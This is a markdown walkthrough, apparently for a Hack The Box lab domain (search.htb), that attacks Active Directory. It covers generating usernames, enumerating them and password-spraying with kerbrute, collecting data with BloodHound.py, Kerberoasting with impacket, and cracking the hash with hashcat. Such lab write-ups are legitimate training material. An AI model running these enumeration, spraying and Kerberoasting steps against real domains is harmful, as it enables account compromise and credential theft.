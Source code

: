 # BloodHound.py

## Get the domain and host name

```bash
$ cme smb 10.10.11.129
```

## Enumerate usernames

### Create usernames

Create a file with the names of staff → `names.txt`:

```bash
John Doe
Alice Stewart
...
```

Python script to create usernames based on `names.txt`:

```python script.py
#!/usr/bin/env python
import sys
import os.path

if __name__ == "__main__": 
    if len(sys.argv) != 2:
        print("usage: {} names.txt".format((sys.argv[0])))
        sys.exit(0)

    if not os.path.exists(sys.argv[1]): 
        print("{} not found".format(sys.argv[1]))
        sys.exit(0)

    for line in open(sys.argv[1]):
        name = ''.join([c for c in line if  c == " " or  c.isalpha()])

        tokens = name.lower().split()

        # skip empty lines
        if len(tokens) < 1: 
            continue

        fname = tokens[0]
        lname = tokens[-1]

        print(fname + lname)           # johndoe
        print(lname + fname)           # doejohn
        print(fname + "." + lname)     # john.doe
        print(lname + "." + fname)     # doe.john
        print(lname + fname[0])        # doej
        print(fname[0] + lname)        # jdoe
        print(lname[0] + fname)        # djoe
        print(fname[0] + "." + lname)  # j.doe
        print(lname[0] + "." + fname)  # d.john
        print(fname)                   # john
        print(lname)                   # joe
```

Just run: `python script.py names.txt`

It will create a list of usernames combining the Name and Lastname.

### Check for valid usernames with kerbrute

You need to be time sync with the target:

```python
$ sudo ntpupdate 10.10.11.129
```

Bruteforce usernames using kerbrute:

```python
$ ./kerbrute userenum --dc 10.10.11.129 -d search.htb users.txt
```

### Password spray with kerbrute

```python
$ ./kerbrute passwordspray --dc 10.10.11.129 -d search.htb users.txt 'SecretPassword'
```

## More enumeration using credentials

### Bloodhound Python

Install:

```python
git clone https://github.com/fox-it/BloodHound.py.git
```

Usage:

```python
python3 bloodhound.py -u hope.sharp -p 'SecretPassword' -d search.htb -ns 10.10.11.129 -c All
```

Start Neo4j:

```python
sudo neo4j console
```

### Bloodhound

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

- Download the latest release

```bash
$ wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.1.0/BloodHound-linux-x64.zip
$ unzip BloodHound-linux-x64.zip
$ cd BloodHound-linux-x64
$ chmod +x BloodHound
$ ./BloodHound
```

Go to Upload Data: Import the `.json` files create by Bloodhound.py.

**FIND KERBEROASTABLE ACCOUNTS**  
BloodHound: ANALYSIS → QUERIES  
- Find all Domains Admins
    - Mark users as high value if not yet
- List all Kerberoastable Accounts  (*Found `web-svc` account.*)

Use credentials and impacket to extract the hash of Kerberoastable users:

```bash
$ GetUsersSPNs.py search.htb/hope.sharp:SecretPassword
$ GetUsersSPNs.py search.htb/hope.sharp:SecretPassword -outputfile kerbroast.hash
```

Crack the hash:

```bash
$ hashcat kerbroast.hash /usr/share/wordlists/rockyou.txt
```

If password is cracked, mark the `web-svc` user as OWNED and run the queries again.
